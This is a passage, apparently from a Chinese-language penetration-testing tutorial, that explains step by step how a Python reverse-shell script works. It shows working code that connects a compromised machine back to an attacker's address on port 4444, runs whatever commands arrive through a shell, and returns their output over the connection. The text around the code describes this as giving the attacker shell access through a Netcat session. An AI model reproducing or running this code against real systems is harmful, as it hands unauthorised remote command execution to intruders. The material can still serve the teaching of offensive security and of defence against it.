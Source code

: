 ```
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```

## 它是如何工作的…

要正常启动脚本，我们需要导入将在整个脚本中使用的模块：

```
import socket
import subprocess
import sys
import time
```

然后我们需要定义我们的变量：这些值是攻击机器的 IP 和端口，用于建立与以下设备的连接：

```
HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on
```

然后我们继续定义原始连接；然后，我们可以将一个值分配给已建立的值，稍后再参考该值来读取输入并发送标准输出。

我们返回到之前设置并创建连接的主机和端口值。我们将已建立的连接的值指定为`go`：

```
def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go
```

然后我们可以引入代码块，为我们完成等待部分。这将等待通过攻击机器的 Netcat 会话向其发送命令。我们确保通过会话发送的数据通过管道传输到 shell 中，然后通过已建立的 Netcat 会话将其标准输出返回给我们，从而通过反向连接让我们能够访问 shell。

我们将名称数据指定给通过 Netcat 会话传递给受损机器的值。向脚本添加值，以在用户完成时退出会话；我们为此选择了`exit`，这意味着进入 Netcat 会话的退出将终止已建立的连接。然后，我们深入到数据被打开（读取）并通过管道传输到外壳中的基本部分。完成后，我们将确保读取`stdout`值并给出`stdout`值（可以是任何值），然后通过之前建立的`go`会话将其发送回我们自己。代码如下：

```
def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False
```
